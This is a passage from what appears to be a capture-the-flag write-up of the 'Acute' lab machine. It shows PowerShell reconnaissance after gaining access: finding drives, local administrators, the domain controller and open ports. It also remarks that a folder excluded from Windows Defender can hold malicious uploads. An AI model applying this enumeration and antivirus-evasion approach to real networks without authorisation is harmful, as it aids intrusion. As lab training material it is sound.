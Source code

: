 Wait... The description (`InfoTip`) says that this directory is for testing files without Windows Defender... That being said, **`C:\Utils\` directory will not be picked up by Windows Defender, so we can upload any malicious files in here.**

**Listing all drives:**
```shell
PS > Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root

Name Root
---- ----
C    C:\ 
D    D:\ 
```

We found the D drive!!

```shell
PS > gci -Force -Path D:\
PS > 
```

But nothing in there?

**Find which user belongs to `Administrators` group:**
```shell
PS > Get-LocalGroupMember Administrators | ft Name, PrincipalSource

Name                     PrincipalSource
----                     ---------------
ACUTE\Domain Admins      ActiveDirectory
ACUTE\jmorgan            ActiveDirectory
ACUTE-PC01\Administrator           Local
```

Hmm... **Domain user `jmorgan` is a member of `Administrators` in this `Acute-PC01`?**

**Get domain controller details:**
```shell
PS > nltest /DSGETDC:acute.local
           DC: \\ATSSERVER.acute.local
      Address: \\172.16.22.1
     Dom Guid: 92c120b3-0294-4355-ac20-ceaa7d7fb622
     Dom Name: acute.local
  Forest Name: acute.local
 Dc Site Name: Default-First-Site-Name
Our Site Name: Default-First-Site-Name
        Flags: PDC GC DS LDAP KDC TIMESERV GTIMESERV WRITABLE DNS_DC DNS_DOMAIN DNS_FOREST CLOSE_SITE FULL_SECRET WS DS_8 DS_9 DS_10 KEYLIST
```

So... Looks like there's **a Domain Controller (DC) on `172.16.22.1`, and the host name (Computer name) is `ATSSERVER`**.

**List all current connections:**
```shell
PS > netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       552
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       2496
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       560
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       572
```